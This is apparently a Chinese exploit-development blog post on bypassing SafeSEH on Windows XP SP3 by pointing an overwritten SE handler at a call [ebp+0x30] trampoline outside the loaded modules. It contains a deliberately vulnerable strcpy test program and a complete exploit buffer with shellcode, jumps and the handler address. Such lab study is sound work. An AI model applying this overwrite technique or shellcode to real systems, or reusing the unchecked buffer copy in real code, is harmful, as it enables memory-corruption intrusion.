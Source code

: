 ```yaml
---
layout:		post
title:		利用加载模块之外的地址绕过SafeS.E.H
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

新建一个工程, 帖入以下代码, 选择release版本, 禁止优化

```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char *input)
{
	char str[200];
	strcpy(str,input);
	__asm int 3
	int zero=0;
	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{
	}
}

int main()
{
	test(shellcode);

	return 0;
}
```


### 0x01 分析栈布局

运行*.exe, OllyDbg自动附加调试, 可以看到所有模块都不是SafeSEH OFF状态

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x00.png)

利用OllyFindAddr工具搜索跳板指令

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x01.png)

在0x00280b0b找到一条call [ebp+0x30]指令

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x02.png)

继续单步下去完成strcpy

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x03.png)

shellcode的起始栈地址0x0012fe88

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x04.png)

最近的一个SE Handler 0x0012ff64

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x05.png)


### 0x02 exploit

组织224 byte的shellcode

```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# shellcode
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# 208 byte
"\xe9\x2b\xff\xff\xff\x90\x90\x90"		# jmp -213(208+5)
"\xeb\xf6\x90\x90"		# jmp -10(8+2)
"\x0b\x0b\x28\x00"		# 0x00280b0b call [ebp+0x30], 最后的"\x00"截断不能将shellcode布置在下
```

再来调试过一遍, 当出现除0异常

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x06.png)

程序找到最近的S.E.H结构, 调用Handler, 这里已经覆盖成跳板call [ebp+0x30]

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x07.png)

当无法处理异常, 顺着S.E.H chain找到下一个S.E.H结构, 这里覆盖成短跳jmp -10

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x08.png)

再来一个长跳jmp -213, 直接跳到shellcode

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x09.png)

pwn~

![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x0a.png)